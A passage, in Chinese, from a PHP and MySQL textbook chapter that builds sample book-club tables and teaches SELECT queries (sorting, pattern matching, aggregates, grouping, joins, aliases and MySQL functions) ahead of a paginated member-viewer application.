     - [ ] Bill Swan，20岁，于2007年6月11日加入
     - [ ] Jane Field，36岁，于2006年3月3日加入

2. 编写一个PHP脚本来查询您在练习1中创建的表，显示所有年龄在25岁以下的俱乐部成员的详细信息。

## 使用PHP从MySQL检索数据

到目前为止，您主要集中于连接到MySQL，无论是通过命令行工具还是通过PHP的PDO扩展，以及创建表并用数据填充它们。在上一章中，您遇到的第一个SQL语句是一个基本的`SELECT`查询。您可以使用`SELECT`做的事情远不止这些，本章将重点介绍在PHP脚本中使用查询来访问MySQL数据库中存储的数据的不同方式。

您将首先为一个虚构的读书俱乐部数据库创建几个MySQL表。这些表将用于本章和下一章中的示例和脚本。

然后，您将仔细了解如何构建SQL `SELECT`语句，以便它们访问您想要的数据，并按您想要的方式排列。您将学习如何：

- 限制返回的结果数量
- 对结果进行排序和分组
- 同时查询多个表
- 使用各种MySQL函数和其他功能来构建更灵活的查询

在探讨了`SELECT`语句的理论后，您将创建一个会员查看器应用程序，您可以使用它来访问在本章开始时创建的读书俱乐部表。

### 设置读书俱乐部数据库

本章和下一章中的示例查询和脚本使用两个表：一个是读书俱乐部成员的`members`表，另一个是`accessLog`表，用于跟踪每位成员访问读书俱乐部网站的情况。为了学习这些示例，请先在MySQL中创建这些表和一个用于存储它们的数据库，并用一些示例数据填充这些表。

如果您不想直接将所有这些行输入到MySQL命令行工具中，可以创建一个文本文件——例如book_club.sql——并在其中输入这些行。将文件保存在运行MySQL命令行工具所在的同一文件夹中。运行该工具，然后输入：

```
source book_club.sql;
```

此命令读取文本文件中的行并执行它们，就像您手动将SQL语句逐行输入到工具中一样。

言归正传，以下是创建和填充两个表的SQL语句：

```
USE mydatabase;

CREATE TABLE members (
id	SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
username	VARCHAR(30) BINARY NOT NULL UNIQUE,
password	CHAR(41) NOT NULL,
firstName	VARCHAR(30) NOT NULL,
lastName	VARCHAR(30) NOT NULL,
joinDate	DATE NOT NULL,
gender		ENUM( 'm', 'f' ) NOT NULL,
favoriteGenre	ENUM( 'crime', 'horror', 'thriller', 'romance', 'sciFi',
'adventure', 'nonFiction' ) NOT NULL,
emailAddress	VARCHAR(50) NOT NULL UNIQUE,
otherInterests	TEXT NOT NULL,
PRIMARY KEY (id)
);

INSERT INTO members VALUES( 1, 'sparky', password('mypass'), 'John',
'Sparks', '2007-11-13', 'm', 'crime', 'jsparks@example.com', 'Football,
fishing and gardening' );
INSERT INTO members VALUES( 2, 'mary', password('mypass'), 'Mary', 'Newton',
'2007-02-06', 'f', 'thriller', 'mary@example.com', 'Writing, hunting and
travel' );
INSERT INTO members VALUES( 3, 'jojo', password('mypass'), 'Jo', 'Scrivener',
'2006-09-03', 'f', 'romance', 'jscrivener@example.com', 'Genealogy, writing,
painting' );
INSERT INTO members VALUES( 4, 'marty', password('mypass'), 'Marty',
'Pareene', '2007-01-07', 'm', 'horror', 'marty@example.com', 'Guitar playing,
rock music, clubbing' );
INSERT INTO members VALUES( 5, 'nickb', password('mypass'), 'Nick',
'Blakeley', '2007-08-19', 'm', 'sciFi', 'nick@example.com', 'Watching movies,
cooking, socializing' );
INSERT INTO members VALUES( 6, 'bigbill', password('mypass'), 'Bill', 'Swan',
'2007-06-11', 'm', 'nonFiction', 'billswan@example.com', 'Tennis, judo,
music' );
INSERT INTO members VALUES( 7, 'janefield', password('mypass'), 'Jane',
'Field', '2006-03-03', 'f', 'crime', 'janefield@example.com', 'Thai cookery,
gardening, traveling' );

CREATE TABLE accessLog (
memberId	SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
pageUrl	VARCHAR(255) NOT NULL,
numVisits	MEDIUMINT NOT NULL,
lastAccess TIMESTAMP NOT NULL,
PRIMARY KEY (memberId, pageUrl)
);

INSERT INTO accessLog( memberId, pageUrl, numVisits ) VALUES( 1, 'diary.php',
2 );
INSERT INTO accessLog( memberId, pageUrl, numVisits ) VALUES( 3, 'books.php',
2 );
INSERT INTO accessLog( memberId, pageUrl, numVisits ) VALUES( 3, 'contact.php', 1 );
INSERT INTO accessLog( memberId, pageUrl, numVisits ) VALUES( 6, 'books.php',
4 );
```

`password`字段为什么正好长41个字符？在代码的后面部分，您可以看到，通过调用MySQL的`password()`函数以加密形式插入成员的密码。`password()`返回的加密密码字符串始终长41个字符，因此为`password`字段使用`CHAR(41)`是合理的。

这些SQL语句中有几个新概念值得探索：`BINARY`属性、`UNIQUE`约束、`ENUM`数据类型和`TIMESTAMP`数据类型。

### BINARY属性和排序规则

所有字符数据类型都有一个_sorting rule_，用于确定字段中字符的比较方式。默认情况下，字段的排序规则不区分大小写。这意味着，当您按字母顺序对列进行排序（您很快就会学会如何做到这一点）时，“a”排在“b”和“B”前面。这也意味着查找文本“banana”的查询将匹配字段值“banana”和“Banana”。

但是，在数据类型定义后添加`BINARY`属性，即可将字段切换为二进制排序规则，该规则区分大小写；排序时，“a”排在“b”前面，但“B”排在“a”前面（因为一般来说，在字符集中，大写字母排在小写字母前面）。此外，这也意味着匹配区分大小写；“banana”只匹配“banana”，不匹配“Banana”。

在此示例中，您使用`BINARY`属性创建了`members`表的`username`字段，使其区分大小写：

```
username VARCHAR(30) BINARY NOT NULL UNIQUE,
```

这确保了每个用户名中字母大小写没有歧义；例如，“john”是一个与“John”不同的用户名。这一点很重要，因为许多人选择的用户名中字符的大小写对他们很重要。如果他们使用用户名“john”创建了帐户，后来发现也可以使用“John”登录，他们可能会怀疑自己是在使用一个帐户还是两个帐户！


## UNIQUE 约束

你已经了解过如何使用关键字 `PRIMARY KEY` 在列上创建索引，以唯一标识表中的每一行。`UNIQUE` 约束与 `PRIMARY KEY` 相似，因为它在列上创建索引，并且还确保列中的值必须是唯一的。主要区别如下：

- 你可以在表中拥有任意数量的 `UNIQUE` 键，而只能有一个 `primary key`
- 构成 `UNIQUE` 键的列可以包含 `NULL` 值；`primary key` 列不能包含 `NULL`

在 `members` 表中，你为 `username` 和 `emailAddress` 列添加了 `UNIQUE` 约束，因为虽然它们不是主键，但你仍然不希望允许多个俱乐部成员拥有相同的用户名或电子邮件地址。

你也可以通过在表定义末尾使用关键字 `UNIQUE KEY` 为列（或多个列）创建唯一键。因此：

```sql
CREATE TABLE members (
    id        SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
    username  VARCHAR(30) BINARY NOT NULL UNIQUE,
    ...
    emailAddress  VARCHAR(50) NOT NULL UNIQUE,
    ...
    PRIMARY KEY (id)
);
```

与以下语句效果完全相同：

```sql
CREATE TABLE members (
    id        SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
    username  VARCHAR(30) BINARY NOT NULL,
    ...
    emailAddress  VARCHAR(50) NOT NULL,
    ...
    PRIMARY KEY (id),
    UNIQUE KEY (username),
    UNIQUE KEY (emailAddress)
);
```

## ENUM 数据类型

在上一章学习数据类型时，你简要了解过 `ENUM` 列。`ENUM`（枚举）列是一种字符串列，字段中只允许预定义的字符串值。对于 `members` 表，你创建了两个 `ENUM` 字段：

```sql
gender        ENUM( 'm', 'f' ),
favoriteGenre ENUM( 'crime', 'horror', 'thriller', 'romance', 'sciFi',
                    'adventure', 'nonFiction' ),
```

ENUM 字段有两个用途。首先，通过限制字段中允许的值范围，你实际上是在验证插入到字段中的任何数据。如果某个值与预定义集合中的值不匹配，MySQL 会拒绝插入该值的尝试。其次，ENUM 字段可以节省存储空间。每个可能的字符串值——如“crime”、“horror”等——都与一个整数关联，并仅在表的单独部分存储一次。然后，每个 ENUM 字段可以作为整数存储，而不是作为字符字符串存储。

你可以想象，ENUM 数据类型仅在字段的可能值较少时才有用。尽管你可以为 ENUM 类型定义多达 65,535 个允许值，但实际上，值超过 20 个左右后，事情就会变得有点难以处理！

## TIMESTAMP 数据类型

你还记得上一章中，MySQL 允许使用多种不同的数据类型存储日期和时间，例如 DATE、DATETIME、TIME、YEAR 和 TIMESTAMP。TIMESTAMP 字段与其他日期/时间类型略有不同，因为它可以自动记录某些事件发生的时间。例如，当你向包含 TIMESTAMP 列的表中添加新行时，该字段会存储插入发生的时间。同样，每当行被更新时，TIMESTAMP 字段都会自动使用更新的时间进行更新。

关于 TIMESTAMP 字段需要记住的另一点是，它们以 UTC（协调世界时）时区存储日期和时间，这基本上与 GMT 时区相同。这可能不会对你产生太大影响，因为 MySQL 会根据需要自动在 UTC 和服务器时区之间转换 TIMESTAMP 值。但是请记住，如果你将 TIMESTAMP 值存储在表中，以后更改了服务器的时区，那么你从 TIMESTAMP 字段中获取回的值会有所不同。

TIMESTAMP 字段非常适合跟踪诸如记录上次创建或更新时间等事项，因为你不必担心设置或更改其值；这会自动发生。在本示例中，你在 accessLog 表中创建了一个 TIMESTAMP 字段来跟踪上次访问时间：

```sql
lastAccess TIMESTAMP NOT NULL,
```

## 使用 SELECT 检索数据

在上一章中，你简要了解了 SELECT 语句，它们允许你从数据库表中提取数据。在以下部分中，你将了解如何使用 SELECT 构建复杂查询。你将学习如何：

- 限制返回的行数
- 按任意顺序对返回的行进行排序
- 使用模式匹配
- 汇总返回的数据
- 消除重复行
- 将结果分组
- [ ] 使用联接从多个表中提取数据
- [ ] 使用各种 MySQL 函数进一步增强查询的功能

在此过程中，你将使用 MySQL 命令行工具磨练技能。读完这些部分后，你将走在创建复杂的数据驱动型 PHP 应用程序的道路上。

### 限制返回的行数

你已经在上一章中了解了如何使用 WHERE 子句根据字段值限制查询结果：

```sql
mysql> SELECT * from fruit WHERE name = 'banana';
```

| ID | 名称   | 颜色   |
|----|--------|--------|
| 1  | banana | yellow |

1 row in set (0.08 sec)

除了（或代替）使用 WHERE 子句，你还可以使用 LIMIT 关键字设置返回行数的上限。例如，以下查询仅返回 members 表中前四个成员的 ID 和用户名：

```sql
mysql> SELECT id, username FROM members LIMIT 4;
```

| ID | 用户名   |
|----|----------|
| 1  | sparky   |
| 2  | mary     |
| 3  | jojo     |
| 4  | marty    |

4 rows in set (0.00 sec)

LIMIT 子句始终位于查询的末尾。

默认情况下，LIMIT 从结果的第一行开始计数。但是，通过在 LIMIT 关键字后包含两个数字（用逗号分隔），你可以指定开始返回结果的行以及要返回的结果数量：

```sql
mysql> SELECT id, username FROM members LIMIT 1, 2;
```

| ID | 用户名 |
|----|--------|
| 2  | mary   |
| 3  | jojo   |

2 rows in set (0.00 sec)

请注意，起始行从零开始计数，因此 1 实际上是第二行（mary）。

你可能想知道 `LIMIT` 的作用是什么，因为你始终可以在 PHP 中循环遍历结果集，只提取你感兴趣的行。使用 `LIMIT` 的主要原因是，它减少了 MySQL 与 PHP 脚本之间需要流动的数据量。

想象一下，你想要检索包含一百万行的用户表中的前 100 行。如果使用 `LIMIT 100`，则只有 100 行会发送到你的 PHP 脚本。但是，如果不使用 `LIMIT` 子句（且你的查询也不包含 `WHERE` 子句），则所有 1,000,000 行数据都会发送到你的 PHP 脚本，在那里需要将它们存储在 `PDOStatement` 对象中，直到你循环遍历以提取前 100 行。在脚本中存储一百万用户的详细信息会因需要大量内存而迅速导致脚本停止。

`LIMIT` 在你的 PHP 应用程序中构建分页搜索功能时特别有用。例如，如果用户请求第二页搜索结果，并且每页显示 10 个结果，则可以使用 `SELECT ... LIMIT 10, 10` 检索第二页结果。你将在本章稍后的“创建成员记录查看器”部分中使用 `LIMIT` 构建分页系统。

### 对结果进行排序

真正将数据库与文本文件区分开来的强大功能之一，是你可以以任意顺序快速且轻松地检索数据。想象一下，你有一个文本文件，其中存储了百万个读书俱乐部成员的名和姓，并按名排序。如果你想按姓检索所有成员列表，你需要在文本文件中重新排列大量行。

使用 SQL，以不同顺序检索记录就像在查询中添加关键字 `ORDER BY`，后跟要按其排序的列一样简单：

```sql
mysql> SELECT username, firstName, lastName FROM members ORDER BY firstName;
```

| 用户名   | 名     | 姓       |
|----------|--------|----------|
| bigbill  | Bill   | Swan     |
| janefield| Jane   | Field    |
| jojo     | Jo     | Scrivener|
| sparky   | John   | Sparks   |
| marty    | Marty  | Pareene  |
| mary     | Mary   | Newton   |
| nickb    | Nick   | Blakeley |

7 rows in set (0.00 sec)

```sql
mysql> SELECT username, firstName, lastName FROM members ORDER BY lastName;
```

| 用户名   | 名     | 姓       |
|----------|--------|----------|
| nickb    | Nick   | Blakeley |
| janefield| Jane   | Field    |
| mary     | Mary   | Newton   |
| marty    | Marty  | Pareene  |
| jojo     | Jo     | Scrivener|
| sparky   | John   | Sparks   |
| bigbill  | Bill   | Swan     |

7 rows in set (0.00 sec)


你甚至可以通过用逗号分隔列名，一次对多个列进行排序：

```
mysql> SELECT favoriteGenre, firstName, lastName FROM members ORDER BY
favoriteGenre, firstName;
```

| favoriteGenre | firstName | lastName |
|---|---|---|
| crime | Jane | Field |
| crime | John | Sparks |
| horror | Marty | Pareene |
| thriller | Mary | Newton |
| romance | Jo | Scrivener |
| sciFi | Nick | Blakeley |
| nonFiction | Bill | Swan |

7 行记录 (0.00 秒)

你可以这样理解这个 ORDER BY 子句：“按 favoriteGenre 排序结果，然后按 firstName 排序。”注意结果是按类型排序的，但当类型相同时（“crime”），结果随后按 firstName 排序（“Jane” 然后 “John”）。

默认情况下，MySQL 按升序对列进行排序。如果要按降序排序，请在字段名后添加关键字 DESC。为避免歧义，你也可以在字段名后添加 ASC 以明确按升序排序：

```
mysql> SELECT favoriteGenre, firstName, lastName FROM members ORDER BY
favoriteGenre DESC, firstName ASC;
```

| favoriteGenre | firstName | lastName |
|---|---|---|
| nonFiction | Bill | Swan |
| sciFi | Nick | Blakeley |
| romance | Jo | Scrivener |
| thriller | Mary | Newton |
| horror | Marty | Pareene |
| crime | Jane | Field |
| crime | John | Sparks |

7 行记录 (0.00 秒)

请记住，ORDER BY 在带有索引的列上运行得更快，因为索引已经按顺序排列。

## 使用模式匹配进行灵活查询

迄今为止，你查看的所有 WHERE 子句都相当精确：

```
SELECT * from fruit WHERE name = 'banana';
SELECT * from fruit WHERE id >= 2;
```

如果你知道想要的精确列值，这种方法很好，但在查询时有时不那么具体也很有用。例如，假设你想获取书友会成员中兴趣包含 travel 的成员列表。`members` 表中的每个 `otherInterests` 字段都是自由格式的，由一个普通英语主题列表组成。如何找出哪些 `otherInterests` 字段包含单词 “travel”？

答案是使用 LIKE 运算符。该运算符允许你以模式形式指定要搜索的字符串，而不是精确字符串：

```
SELECT ... WHERE fieldName LIKE pattern;
```

在模式字符串中，除了常规字符外，还可以包含以下通配符：

- % 匹配任意数量的字符（包括零个字符）
- _(下划线) 匹配恰好一个字符

因此，要检索将 travel 列为兴趣之一的成员列表，你可以使用：

```
mysql> SELECT username, firstName, lastName, otherInterests FROM members
WHERE otherInterests LIKE '%travel%';
```

| username | firstName | lastName | otherInterests |
|---|---|---|---|
| mary | Mary | Newton | Writing, hunting and travel |
| janefield | Jane | Field | Thai cookery, gardening, traveling |

注意 MySQL 同时匹配了单词 “travel” 和 “traveling”。这两个字符串都匹配模式 ‘%travel%’（零个或多个字符，后跟单词 “travel”，再后跟零个或多个字符）。

顺便提一下，没有要求将正在比较的列（本例中为 otherInterests）包含在要检索的列名列表中。这里这样做只是为了让你可以看到两名成员的兴趣都包含 travel。以下 SQL 同样有效：

```
mysql> SELECT username FROM members WHERE otherInterests LIKE '%travel%';
```

你可以使用 _(下划线) 通配符字符来匹配单个字符，例如：

```
mysql> SELECT firstName, lastName FROM members WHERE firstName LIKE 'Mar_Y';
```

| firstName | lastName |
|---|---|
| Marty | Pareene |

注意，此查询不会返回 Mary Newton 的记录，因为下划线匹配恰好一个字符，而 “Mary” 中的 “r” 和 “y”之间没有字符。

你可以使用 NOT LIKE 而不是 LIKE 来反转比较含义。以下示例显示不在兴趣中包含 travel 的成员列表：

```
mysql> SELECT username, firstName, lastName, otherInterests FROM members
WHERE otherInterests NOT LIKE '%travel%';
```

| username | firstName | lastName | otherInterests |
|---|---|---|---|
| sparky | John | Sparks | Football, fishing and gardening |
| jojo | Jo | Scrivener | Genealogy, writing, painting |
| marty | Marty | Pareene | Guitar playing, rock music, clubbing |
| nickb | Nick | Blakeley | Watching movies, cooking, socializing |
| bigbill | Bill | Swan | Tennis, judo, music |

5 行记录 (0.05 秒)

## 汇总数据

正如 PHP 包含大量内置函数一样，MySQL 也为你提供了许多辅助查询的函数。在本节中，你将了解 MySQL 的一些聚合函数。这些函数不会返回表中包含的实际数据，而是让你以不同的方式汇总表格数据：

- count() — 返回查询选择的行数
- sum() — 返回查询选择的给定字段的所有值的总和
- min() — 返回查询选择的给定字段的所有值中的最小值
- max() — 返回查询选择的给定字段的所有值中的最大值
- avg() — 返回查询选择的给定字段的所有值的平均值

你可以以两种略有不同的方式使用 count()：

- count( fieldname ) — 返回查询选择的行数，其中 fieldname 不为 NULL
- count( * ) — 返回查询选择的行数，无论行是否包含任何 NULL 值

以下是 count() 的几个示例。第一个示例计算 members 表中的所有行：

```
mysql> SELECT COUNT( * ) FROM members;
```

| COUNT( * ) |
|---|
| 7 |

1 行记录 (0.02 秒)

另一方面，这个示例仅计算 members 表中女性的数量：

```
mysql> SELECT COUNT( * ) FROM members WHERE gender = 'f';
```

| COUNT( * ) |
|---|
| 3 |

1 行记录 (0.00 秒)

请注意，在两种情况下，MySQL 工具都报告结果集中只有一行。虽然第一个示例从 members 表中选择了七行，但 count() 聚合函数将这七行取为一个单一值 (7)。因此，最终结果集只包含一行。同样，第二个 count() 查询将三行结果减少为单一值 3。

剩余的聚合函数与你预期的工作方式大致相同。例如，此查询返回所有成员访问书友会网站的总次数：

```
mysql> SELECT SUM( numVisits ) FROM accessLog;
```

| SUM( numVisits ) |
|---|
| 9 |

1 行记录 (0.00 秒)

你甚至可以在日期上使用 min() 和 max() 等函数。此查询返回第一个成员加入俱乐部的日期：

```
mysql> SELECT MIN( joinDate ) FROM members;
```

| MIN( joinDate ) |
|---|
| 2006-03-03 |

1 行记录 (0.02 秒)

## 消除重复结果

偶尔，即使使用 WHERE 和 LIMIT 子句，查询也会返回比实际需要更多的数据。假设你的 accessLog 表包含以下数据：

```
mysql> SELECT * FROM accessLog;
```

| memberId | pageUrl | numVisits | lastAccess |
|---|---|---|---|
| 1 | diary.php | 2 | 2008-11-03 14:12:38 |
| 3 | books.php | 2 | 2008-11-08 19:47:34 |
| 3 | contact.php | 1 | 2008-11-08 14:52:12 |
| 6 | books.php | 4 | 2008-11-09 11:32:44 |

现在，假设你想获取自 11 月 7 日以来访问过网站的用户 ID 列表。你可以创建如下查询：

```
mysql> SELECT memberId FROM accessLog WHERE lastAccess > '2008-11-07';
```

| memberId |
|---|
| 3 |
| 3 |
| 6 |

3 行记录 (0.00 秒)

现在有一个小问题：值 3 在结果集中出现了两次。这是因为 accessLog 表中有两行 memberId 为 3 且 lastAccess 日期晚于 11 月 7 日，代表用户 3 浏览了两个不同的页面。例如，如果你在报告中显示这些数据，用户 3 将出现两次。你可以想象如果该用户访问了 100 个不同页面会发生什么！

要消除此类重复项，可以在查询的 SELECT 后放置关键字 DISTINCT：

```
mysql> SELECT DISTINCT memberId FROM accessLog WHERE lastAccess > '2008-11-07';
```

| memberId |
|---|
| 3 |
| 6 |

2 行记录 (0.00 秒)

DISTINCT 从结果集中删除与其他行完全重复的任何行。例如，以下查询的 memberId 列中仍然包含两个 3，因为每个实例的 pageUrl 列不同：

```
mysql> SELECT DISTINCT memberId, pageUrl FROM accessLog WHERE lastAccess > '2008-11-07';
```

| memberId | pageUrl |
|---|---|
| 3 | books.php |
| 3 | contact.php |
| 6 | books.php |

3 行记录 (0.00 秒)

## 分组结果

你已经了解如何使用 count() 和 sum() 等函数从表中检索总体聚合数据，例如书友会中有多少女性成员。如果你想获取更细致的信息怎么办？例如，假设你想找出每个成员浏览的不同页面 URL 的数量。你可以尝试此查询：


## 从多个表中提取数据

```
mysql> SELECT count( pageUrl ) FROM accessLog;
```

| count( pageUrl ) |
|------------------|
|                4 |

1 行记录，耗时 0.00 秒

这可不好。这个查询只给了你表中的总行数！相反，你需要按成员 ID 对 pageUrl 计数进行分组。为此，你需要添加一个 GROUP BY 子句。例如：

```
mysql> SELECT memberId, count( pageUrl ) FROM accessLog GROUP BY memberId;
```

| memberId  | count( pageUrl ) |
|-----------|------------------|
|         1 |                1 |
|         3 |                2 |
|         6 |                1 |

3 行记录，耗时 0.00 秒

这就好多了。通过将聚合函数 count() 与用于分组的列 (memberId) 结合，你可以按成员查看统计信息。在此示例中，你可以看到成员 1 和 6 各查看了一个不同的页面，而成员 3 访问了两个不同的页面。

你可以在同一个查询中组合使用 GROUP BY 和 ORDER BY。以下是如何对前面的数据进行排序，使查看不同页面数量最多的成员位于表顶部的方法：

```
mysql> SELECT memberId, count( pageUrl ) FROM accessLog GROUP BY memberId
ORDER BY count( pageUrl ) DESC;
```

| memberId  | count( pageUrl ) |
|-----------|------------------|
|         3 |                2 |
|         1 |                1 |
|         6 |                1 |

3 行记录，耗时 0.00 秒

到目前为止，你的所有查询都一次只处理一个表。然而，关系型数据库的真正强大之处在于，你可以一次查询多个表，使用选定的列来关联这些表。这种查询称为连接（join），连接使你能够创建复杂查询，从表中检索各种有用的信息。

## 第三部分：在实践中使用 PHP

在前面从 `accessLog` 表中检索统计信息的示例中，你的结果集包含 `memberId` 列中的整数成员 ID 列表。例如，假设你想要访问过网站的所有成员列表：

```
mysql> SELECT DISTINCT memberId FROM accessLog;
```

| memberId  |
|-----------|
|         1 |
|         3 |
|         6 |

3 行记录，耗时 0.00 秒

当然，单独的成员 ID 本身帮助不大。如果你想了解涉及成员的 *姓名*，则需要运行另一个查询来查看 `members` 表中的数据：

```
mysql> SELECT id, firstName, lastName FROM members;
```

| id | firstName  | lastName  |
|----|------------|-----------|
|  1 | John       | Sparks    |
|  2 | Mary       | Newton    |
|  3 | Jo         | Scrivener |
|  4 | Marty      | Pareene   |
|  5 | Nick       | Blakeley  |
|  6 | Bill       | Swan      |
|  7 | Jane       | Field     |

7 行记录，耗时 0.00 秒

现在你可以看到，成员编号 1 实际上是 John Sparks，成员编号 3 是 Jo Scrivener，成员编号 6 是 Bill Swan。

然而，通过使用连接，你可以合并两个表的数据，在同一个查询中不仅检索访问过网站的成员 ID 列表，还能检索他们的姓名：

```
mysql> SELECT DISTINCT accessLog.memberId, members.firstName, members.lastName FROM accessLog, members WHERE accessLog.memberId = members.id;
```

| memberId  | firstName  | lastName  |
|-----------|------------|-----------|
|         1 | John       | Sparks    |
|         3 | Jo         | Scrivener |
|         6 | Bill       | Swan      |

3 行记录，耗时 0.03 秒

这才是有用的信息！来看看这个查询是如何构建的。首先，请注意 FROM 子句现在包含 *两个* 表，用逗号分隔：

```
FROM accessLog, members
```

你可以按照这种方式从任意多个表中提取数据。然而，仅凭这个 FROM 子句只会简单地返回 members 表中的所有行。这就是为什么你需要创建实际连接的 WHERE 子句的原因：

```
FROM accessLog, members WHERE accessLog.memberId = members.id
```

通过添加 WHERE 子句，你告诉 MySQL 只有在 members 表的 id 列与以下内容返回的成员 ID 列表中的某个值匹配时，才返回该表的行：

```
SELECT DISTINCT accessLog.memberId
```

换句话说，如果 members 表中某行的 id 列不是 1、3 或 6，则忽略该行。

你可能已经注意到，这个查询指定的不仅是字段名，还有每个字段所属的表：

```
accessLog.memberId, members.firstName, members.lastName
```

在同时处理多个表时，这一点很重要，因为它可以防止字段名出现歧义。例如，如果你的 members 表的 id 列实际上名为 memberId，那么下面的查询就会产生歧义：

```
SELECT DISTINCT memberId, firstName, lastName FROM accessLog, members WHERE memberId = memberId;
```

在每种情况下，memberId 列都指的是哪个表？无法得知。通过在列名之前包含表名（用点分隔），你可以明确告诉 MySQL 你正在谈论哪个列。

> 如果不为列名加上表名前缀，MySQL 足够智能，可以在同一列名不存在于多个表的情况下判断你指的是哪个表。不过，在阅读查询时，包含表名通常是一种好的做法，以避免歧义。稍后你将看到如何使用别名使查询更简短、更易读。

这个查询只是连接的一个简单示例，但如果你的数据库包含多个表，你会多次使用此类连接。

### 使用别名

当你开始处理许多表时，事情可能会变得难以管理。例如，在前一部分中，你使用了以下查询来检索访问过网站的成员姓名列表：

```
mysql> SELECT DISTINCT accessLog.memberId, members.firstName, members.lastName FROM accessLog, members WHERE accessLog.memberId = members.id;
```

这个查询中表名 `accessLog` 和 `members` 重复出现多次。幸运的是，SQL 允许你在 `FROM` 子句中每个表名后指定别名来创建简短的表别名。然后，你可以使用这些别名来引用表，而无需每次都使用完整的表名：

```
mysql> SELECT DISTINCT al.memberId, m.firstName, m.lastName FROM accessLog
al, members m WHERE al.memberId = m.id;
```

| memberId  | firstName | lastName  |
|-----------|-----------|-----------|
| 1         | John      | Sparks    |
| 3         | Jo        | Scrivener |
| 6         | Bill      | Swan      |

3 行记录，耗时 0.00 秒

你还可以使用 AS 关键字为查询返回的列创建别名。请看你之前研究过的这个查询：

```
mysql> SELECT memberId, count( pageUrl ) FROM accessLog GROUP BY memberId;
```

| memberId  | count( pageUrl ) |
|-----------|------------------|
| 1         | 1                |
| 3         | 2                |
| 6         | 1                |

3 行记录，耗时 0.00 秒

请注意，结果集中的第二列名为 `count( pageUrl )`。这不仅不够描述性，而且在 PHP 脚本中引用它也很别扭。因此，最好将此列重命名为更有意义的名称：

```
mysql> SELECT memberId, count( pageUrl ) AS urlsViewed FROM accessLog GROUP
BY memberId;
```

| memberId  | urlsViewed  |
|-----------|-------------|
| 1         | 1           |
| 3         | 2           |
| 6         | 1           |

3 行记录，耗时 0.00 秒

### 其他有用的 MySQL 运算符和函数

MySQL 包含丰富的运算符和函数，可用于构建更复杂的查询。你在本章中已经使用过其中的一些。这里将探讨其他一些常见的运算符和函数。请记住，这远非完整列表（你可以在 MySQL 手册 http://dev.mysql.com/doc/ 中找到这样的列表）。


就像PHP一样，MySQL提供了各种比较运算符，可用于在查询中比较列值和其他表达式。以下是一些常见的运算符：

| 比较运算符 | 描述 |
|---|---|
| = | 等于 |
| <=> | 等于的NULL安全版本 |
| != 或 <> | 不等于 |
| < | 小于 |
| > | 大于 |
| <= | 小于或等于 |
| >= | 大于或等于 |

使用比较运算符的结果值为 1（TRUE）、0（FALSE）或 NULL。

大多数运算符都不言自明。如果你认为比较的值中可能有 NULL，则 <=> 很有用。请记住，NULL 值会在整个表达式中传播，因此如果表达式中的任何值为 NULL，结果也将为 NULL。在尝试比较两个值时，这帮助不大。例如：

```
mysql> select 1 = 2;
+---------+
| 1 = 2   |
+---------+
|       0 |
+---------+
1 row in set (0.00 sec)
```

```
mysql> select 2 = 2;
+---------+
| 2 = 2   |
+---------+
|       1 |
+---------+
1 row in set (0.00 sec)
```

```
mysql> select 1 = NULL;
+------------+
| 1 = NULL   |
+------------+
|     NULL   |
+------------+
1 row in set (0.00 sec)
```

使用 null-safe 运算符 <=>，可以确保任何 NULL 值不会传播到结果中：

```
mysql> select 1 <=> 2;
+-----------+
| 1 <=> 2   |
+-----------+
|         0 |
+-----------+
1 row in set (0.00 sec)
```

```
mysql> select 1 <=> NULL;
+-------------+
| 1 <=> NULL  |
+-------------+
|           0 |
+-------------+
1 row in set (0.00 sec)
```

```
mysql> select NULL <=> NULL;
+-----------------+
| NULL <=> NULL   |
+-----------------+
|               1 |
+-----------------+
1 row in set (0.00 sec)
```

你还可以使用布尔运算符 AND、OR 和 NOT 构建更复杂的表达式。例如：

```
mysql> SELECT * FROM accessLog WHERE lastAccess > '2008-11-04' AND lastAccess < '2008-11-09';
+-----------+------------+-----------+---------------------+
| memberId  | pageUrl    | numVisits | lastAccess          |
+-----------+------------+-----------+---------------------+
|         3 | books.php  |         2 | 2008-11-08 19:47:34 |
|         3 | contact.php|         1 | 2008-11-08 14:52:12 |
+-----------+------------+-----------+---------------------+
```

MySQL 的函数可以分为多个类别。例如，有许多日期和时间函数，如 now()，用于检索当前日期和时间（在将日期和时间与当前时刻进行比较时很有用）。你还可以使用 curdate() 仅检索 now() 的日期部分，并使用 curtime() 获取仅时间部分：

```
mysql> SELECT now(), curdate(), curtime();
+---------------------+------------+----------+
| now()               | curdate()  | curtime() |
+---------------------+------------+----------+
| 2008-11-09 12:17:08 | 2008-11-09 | 12:17:08 |
+---------------------+------------+----------+
1 row in set (0.08 sec)
```

字符串函数允许你操作字符串值，类似于 MySQL 的字符串函数：

```
mysql> SELECT substring( 'Hello, world!', 2, 4 );
+--------------------------+
| substring( 'Hello, world!', 2, 4 ) |
+--------------------------+
| ello                   |
+--------------------------+
1 row in set (0.00 sec)
```

（注意，在 MySQL 中字符位置从 1 开始，而不是从 0 开始。）

MySQL 还提供许多数学函数：

```
mysql> SELECT pow( pi(), 2 );
+-------------+
| pow( pi(), 2 ) |
+-------------+
| 9.8696044010894 |
+-------------+
1 row in set (0.03 sec)
```

你可以看到，通过使用函数、运算符和其他结构，你实际上可以在 MySQL 本身中进行大量的数据处理。它不仅仅是检索数据。

## 创建会员记录查看器

既然你已掌握通过 SQL 检索数据的基础知识，是时候编写一个数据驱动的 PHP 应用程序了。在此过程中，你将深入了解 PDO 的强大功能，学习一些更有用的 MySQL 特性，并锻炼你的面向对象编程技能。

该应用程序相对简单。首先，它以 HTML 表格的形式显示读书俱乐部所有成员的列表。表格包括用户名、名和姓列，你可以按这些列中的任何一列对数据进行排序。成员列表也是分页的，一次只显示五名成员，并在列表底部提供链接，让你一次前进或后退一页。

列表中的每个成员都包含一个“查看会员”链接，你可以单击该链接查看完整的会员记录，包括加入日期、性别、喜欢的类型、电子邮件地址、兴趣爱好以及他们在读书俱乐部网站上浏览的页面。

该应用程序是面向对象的，并创建类来处理从数据库检索会员和访问日志记录。该应用程序还分散在多个小文件中。一般来说，这种方法比将所有应用程序代码放在单个大脚本文件中要好，因为它更容易定位和调试代码。

图 13-1 显示了应用程序生成的成员列表示例。


图 13-1

## 创建 config.php 文件

你将要创建的第一个应用程序文件是一个非常简单的文件。它包含用于配置应用程序的一组常量。

